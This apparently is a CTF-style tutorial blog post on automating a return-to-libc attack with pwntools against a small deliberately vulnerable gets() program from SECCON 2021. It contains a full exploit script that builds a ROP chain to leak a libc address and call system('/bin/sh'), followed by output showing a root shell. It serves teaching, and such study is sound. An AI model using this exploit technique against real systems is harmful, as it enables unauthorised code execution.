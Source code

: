 ```yaml
---
title: Return To Libc - Automated by Pwntools
date: 0005-01-01T00:00:06Z
draft: false
description: nil
toc: false
---
```


This is a continuation of [Return 2 LIBC Part 1](/pwn/rop/ret2libc1). If you have not read it, please read it before continuing.

<br>

## Recap

In the last part of `Ret2Libc`, we exploited this simple program _(albeit painfully)_ from SECCON 2021;

```c
// gcc src.c -no-pie -fno-stack-protector -o chall -Wall -Wextra
#include <stdio.h>

int main() {
  char str[0x100];
  gets(str);
  puts(str);

}
```

This time, we will do it without finding any addresses from all over the place.

<br>

## Exploit

First, we need to know the `LIBC` that we are running _(or if you are connecting to a remote-service, you have to know their `LIBC`, or leak it)_


```
➜ ldd ./chall
 linux-vdso.so.1 (0x00007fff1b598000)
 libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fec9057f000)
 /lib64/ld-linux-x86-64.so.2 (0x00007fec90763000)
```

Our Libc is at `/lib/x86_64-linux-gnu/libc.so.6`.

Now let's write our script to firstly leak our `gets()` address.

This time, we will use our `PwnTools` module to set the `context`, our `binary` and our `libc`.

Using PwnTools `ROP` module, we can call symbols and easily craft our `ROP chain`.

We can also easily find our addresses with `elf.got.gets`.

```py
from pwn import *

context.binary = elf = ELF('chall')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('chall')

rop = ROP(elf)
rop.puts(elf.got.gets)
rop.main()

p.sendline(flat({ 264: rop.chain() }))
p.interactive()
```

![image](/pwn/images/ret2libc3.png)

As you can see we successfully managed to get our leaks and loop back to main().

<br>

#### Final Exploit Script

Let's finish up the rest of our script.

```py
from pwn import *

p = process('./chall')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.binary = elf = ELF('chall')

rop = ROP(elf)
rop.puts(elf.got.gets)
rop.main()

p.sendline(flat({ 264: rop.chain() }))
p.recvuntil(cyclic(264))
leak = u64(p.recvline().strip().ljust(8,b'\x00'))
leak2 = u64(p.recvline().strip().ljust(8,b'\x00'))

log.info(f"leak1: {hex(leak)}, leak2: {hex(leak2)}")

libc.address = leak2 - libc.sym.gets
binsh = next(libc.search(b"/bin/sh"))

rop = ROP([libc, elf])
rop.system(binsh)

p.sendline(flat({ 264: rop.chain() }))
p.interactive()
```

Output:

```
[x] Starting local process './chall'
[+] Starting local process './chall': pid 11788
[*] leak1: 0x4011f3, leak2: 0x7f3dd7de2b60
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)

$ whoami
root
```

Voila!  We have pwned it without needing to find a single address manually.


